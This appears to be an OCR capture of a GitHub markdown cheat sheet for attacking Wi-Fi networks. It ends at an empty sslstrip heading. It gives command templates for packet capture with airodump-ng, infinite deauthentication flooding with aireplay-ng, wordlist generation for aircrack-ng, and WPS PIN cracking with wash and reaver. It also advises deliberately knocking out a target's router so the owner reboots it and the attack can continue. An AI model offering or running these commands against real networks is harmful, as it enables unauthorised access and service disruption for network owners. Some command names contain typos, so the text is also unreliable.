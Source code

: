 > airodump-ng -c `CHANNEL` --bssid `BSSID` -w `RUNNAME`

### aireplay-ng

De-authenticate all devices of a defined network

> aireplay-ng --deauth `ITERATIONS` -a `BSSID`

* `ITERATIONS` Amount of deauth attack iterations. If equals `0` it will run as an infinite loop

#### DoS Attack

> aireplay --deauth 0 -a `BSSID` `NET INTERFACE`

### crunch

Creates a wordlist based on criteria you specify.

> crunch -t `PATTERN` -f `CHARSET-FILE`

The output can be piped to `aircrack-ng`.

* `PATTERN` Pattern of the words that will be created 

* `CHARSET-FILE` Charset of the keys used to build words.

### wash

Search for WIFI networks using a wificard.

> wash -i `interface`

Look for `WPS Locked` equals to `No`. 

Thoses networks can be cracked using [reaver](#reaver)

#### If something goes wrong run:

> mkdir /etc/reaver

### reaver

For cracking WPS protected networks.

WPS uses 4-8 numbers PIN.

It’s required to set the wifi card in promíscuos mode.

Run `arimon-ng check <<card>>` before to check for issues before running reaver.

> reaver -b `TARGET MAC ADDRESS` -i `INTERFACE` -c `TARGET CHANNEL` -r `TRIES`:`SECONDS`

* Look for reverse engineered scripts that can generate WPS PIN for the brand of the router that you are atacking. 
* Take care of AP Rate. If the router is blocked for WPS PIN you can try DoS the router so the owner will restart the router and you can try it again.

### sslstrip
